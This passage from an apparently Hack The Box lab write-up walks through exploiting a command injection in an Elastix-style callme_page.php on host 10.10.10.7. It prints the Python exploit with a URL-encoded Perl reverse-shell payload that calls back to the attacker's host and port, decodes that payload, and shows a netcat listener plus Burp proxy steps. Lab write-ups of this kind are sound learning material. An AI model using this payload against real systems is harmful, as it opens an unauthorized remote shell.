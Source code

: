 ![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/6/87.jpg)

---
---
- python another way

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/6/88.jpg)

## decode with burp suite

- Looking at the code, we need to change the lhost, lport, and rhost.
```bash
import urllib  
rhost="10.10.10.7"  
lhost="10.10.14.12"  
lport=1234  
extension="1000"\# Reverse shell payload  
url = 'https://'+str(rhost)+'/recordings/misc/callme\_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'urllib.urlopen(url)
```

- Before we run the script, let’s URL decode the **url** parameter to see what it’s doing.

```bash
'https://'+str(rhost)+'/recordings/misc/callme\_page.php?action=c&callmenum='+str(extension)+'[@from](http://twitter.com/from)\-internal/n  
Application: system  
Data: perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"'+str(lhost)+':'+str(lport)+'");STDIN->fdopen($c,r);$~->fdopen($c,w);system$\_ while<>;'
```
- It seems like a command injection that sends a reverse shell back to our attack machine. Let’s setup a netcat listener on the configured lhost & lport to receive the reverse shell.

```bash
nc -nlvp 1234
```

- Run the script.

```bash
python 18650.py
```

- I get an SSL unsupported protocol error. I tried fixing the error by changing the [python code](https://stackoverflow.com/questions/19268548/python-ignore-certificate-validation-urllib2), however, I couldn’t get it to work. Therefore, the next best solution is to have it go through Burp.

- First, change the url parameter from “https” to “http” and the rhost to “localhost”. Next, in Burp go to **Proxy** \> **Options** \> **Proxy Listeners** \> **Add**. In the **Binding** tab, set the port to **80**. In the **Request handling** tab set the **Redirect to host** parameter to **10.10.10.7**, **Redirect to port** parameter to **443** and check the option **Force use of SSL**.
